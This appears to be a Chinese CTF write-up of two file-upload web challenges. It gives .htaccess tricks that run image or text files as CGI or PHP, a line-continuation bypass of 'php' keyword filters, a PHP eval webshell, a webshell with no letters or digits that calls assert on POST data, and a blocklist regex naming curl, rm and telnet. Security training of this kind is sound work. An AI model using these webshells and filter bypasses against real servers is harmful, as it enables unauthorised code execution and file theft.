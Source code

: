 ```yaml
---
layout: post
title: 
data: 
categories: 
tags: 
description: 
excerpt_separator: ""
---
```


# check in

## 题目描述

一道文件上传，文件名有黑名单，拦截了"ph"，然后文件内容也有正则匹配拦截：

```
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet
```

## 解题思路

文件名有拦截，还是黑名单，自然地想到了上传htaccess，不过htaccess中的"php"会被检测，隐约感觉PHP没什么希望了。

想到了上传CGI文件，还是比较顺利的，htaccess文件：

```htaccess
Options +ExecCGI
AddHandler cgi-script .png
```

木马文件：

```bash
#!/bin/bash
echo "Content-Type: text/plain"
echo
cat /flag
```

得到flag。

后来发现这题还有一种解法，首先htaccess中的"php"可以换行绕过：

```htaccess
Addtype application/x-httpd-p\
hp .png
```

木马文件：

```php
<?=eval($_POST["cmd"]);
```

甚至可以上传这样的htaccess文件：

```htaccess
AddHandler p\
hp5-script .txt
p\
hp_value au\
to_append_file /flag
```

然后随便上传个TXT文件就会加载flag。

## 备注

1. 在本地测试CGI文件的时候，总是因为没有执行权限而返回500错误，不知道服务器是怎么给上传的文件加权限的。

2. "\<?= ?>"是"echo()"的快捷用法：

    ```php
    <?="foo"?> == echo("foo")
    ```

3. 如果Apache运行mod_php，就可以利用"php_value"关键字更改php.ini的值。

----

# Hard_Pentest_1

## 题目描述

一个文件上传，直接给了源码：

```php
<?php
//Clear the uploads directory every hour
highlight_file(__FILE__);
$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);

if($_POST["submit"]){
    if (($_FILES["file"]["size"] < 2048) && Check()){
        if ($_FILES["file"]["error"] > 0){
            die($_FILES["file"]["error"]);
        }
        else{
            $filename=$_FILES["file"]["name"];
            move_uploaded_file($_FILES["file"]["tmp_name"], $filename);
            echo "save in:" . $sandbox."/" . $filename;
        }
    }
    else{
        echo "Not Allow!";
    }
}

function Check(){
    $BlackExts = array("php");
    $ext = explode(".", $_FILES["file"]["name"]);
    $exts = trim(end($ext));
    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);

    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  && 
        !in_array($exts, $BlackExts) && 
        !preg_match('/\.\./',$_FILES["file"]["name"])) {
          return true;
    }
    return false;
}
?>
```

## 解题思路

文件名的拦截容易绕，然后还有内容的检测，就是构造一个无字母和数字的Shell：

```php
<?=$_=[]?><?=$_="$_"?><?=$_=$_['!'=='@']?>

<?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>

<?=$___=$_?><?=$___++?><?=$___++?><?=$___++?><?=$___++?>

<?=$____=$_?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?>

<?=$_____=$_?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?>

<?=$__=$_.$__.$__.$___.$____.$_____?>

<?=$___=$_?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?><?=$___++?>

<?=$____=$_?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?><?=$____++?>

<?=$_____=$_?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?><?=$_____++?>

<?=$______=$_?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?><?=$______++?>

<?=$_='_'.$___.$____.$_____.$______?>
<?=$_=$$_?>

<?=$__($_['_'])?>
```

等价于：

```php
<?php
$foo = "ASSERT";
$bar = "_POST";
$bar = $$bar;
$foo($bar['_']); //assert($_POST['_'])
?>
```

执行之后发现Shell命令无法执行，用PHP内置函数看一下目录，发现是Windows。

然后就卡住了。

## 备注

1. eval()是PHP语法构造的一部分，不能通过可变函数调用。
2. assert()在PHP7中默认无法再执行代码。